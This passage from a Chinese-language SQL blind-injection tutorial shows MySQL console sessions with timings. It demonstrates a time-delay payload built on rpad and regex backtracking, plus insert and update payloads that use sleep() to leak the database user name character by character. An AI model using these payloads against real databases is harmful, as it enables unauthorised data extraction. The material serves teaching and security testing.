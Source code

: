 ```
1 row in set (0.00 sec)
```



**构造延时注入**

```
mysql> select * from vorname where Vorname='Lina' and IF(0,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (0.00 sec)

mysql> select * from vorname where Vorname='Lina' and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (6.20 sec)
```

😇**IF(0,x,y)**时，执行**y**，**IF(1,x,y)**时，执行**x**

😇**rpad(1,999999,'a')**的意思是在1后面补a，使得一共999999位

😇然后通过**rlike**判断字符串是不是形如**aaaaaab**，肯定没有后面这个**b**啦，返回值0



# insert 和 update 的盲注

```
insert into vorname values (16,'sueisok','0'| if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1));

update vorname set Alt = 21|if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1) where Nachname='sueisok';
```

但这个会影响数据库数据



# Refer

[https://xz.aliyun.com/t/5505](shenmedoumeiyou)

[https://www.k0rz3n.com/2019/02/21/一篇文章带你深入理解 SQL 盲注/](dianjibunengtiaozhuan)

[https://blog.csdn.net/ouyn8/article/details/44674563](dianji)

[https://blog.csdn.net/yuanjiu4221/article/details/82661424](hahaha)